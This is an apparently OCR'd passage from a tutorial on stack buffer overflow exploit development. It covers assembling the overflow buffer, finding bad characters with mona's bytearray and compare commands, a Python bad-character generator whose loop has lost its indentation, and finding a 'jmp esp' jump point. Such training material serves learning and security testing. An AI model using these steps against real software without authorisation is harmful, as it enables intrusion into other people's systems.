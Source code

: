     buffer = prefix + overflow + retn + padding + payload + postfix

Crash the application using this buffer, and make sure that EIP is overwritten by B's (\\x42) and that the ESP register points to the start of the C's (\\x43).

Finding Bad Characters
======================

Generate a bytearray using mona, and exclude the null byte (\\x00) by default. Note the location of the bytearray.bin file that is generated.

.. code-block:: none

    !mona bytearray -b "\x00"

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \\x01 to \\xff:

.. code-block:: python

    #!/usr/bin/env python
    from __future__ import print_function

    for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

    print()

Put the string of bad chars before the C's in your buffer, and adjust the number of C's to compensate:

.. code-block:: none

    badchars = "\x01\x02\x03\x04\x05...\xfb\xfc\xfd\xfe\xff"
    payload = badchars + "C" * (600-112-4-255)

Crash the application using this buffer, and make a note of the address to which ESP points. This can change every time you crash the application, so get into the habit of copying it from the register each time.

Use the mona compare command to reference the bytearray you generated, and the address to which ESP points:

.. code-block:: none

    !mona compare -f C:\mona\appname\bytearray.bin -a <address>

Find a Jump Point
=================

The mona jmp command can be used to search for jmp (or equivalent) instructions to a specific register. The jmp command will, by default, ignore any modules that are marked as aslr or rebase.

The following example searches for "jmp esp" or equivalent (e.g. call esp, push esp; retn, etc.) while ensuring that the address of the instruction doesn't contain the bad chars \\x00, \\x0a, and \\x0d.

.. code-block:: none

    !mona jmp -r esp -cpb "\x00\x0a\x0d"

